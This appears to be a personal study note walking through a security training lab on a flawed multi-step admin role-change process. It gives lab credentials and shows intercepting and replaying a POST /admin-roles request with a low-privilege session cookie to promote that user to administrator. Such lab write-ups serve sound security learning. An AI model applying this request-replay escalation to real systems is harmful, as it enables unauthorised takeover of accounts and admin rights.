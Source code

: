 ![[Pasted image 20220514200914.png]]

![[Pasted image 20220514200945.png]]

### Multi-step process with no access control on one step
```bash

# This lab has an admin panel with a flawed multi-step process for changing a user's role. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

# To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 

Login with administrator:admin
Go to: "Admin panel"
Intercept is on

POST /admin-roles HTTP/1.1

username=carlos&action=upgrade

Send to repeater

POST /admin-roles HTTP/1.1

action=upgrade&confirmed=true&username=wiener

Send to repeater

Go to: "Logout"
Login as wiener:peter
Go to: HTTP history
Find:

GET /my-account HTTP/1.1

Cookie: session=jHCbbrD4jaPFkIj2gJ3Pk4PD4GNvEbsF

Take the cookie from username "wiener"
Go to:

POST /admin-roles HTTP/1.1

Change:

action=upgrade&confirmed=true&username=carlos

To

action=upgrade&confirmed=true&username=wiener

Note the response:

HTTP/1.1 302 Found

```
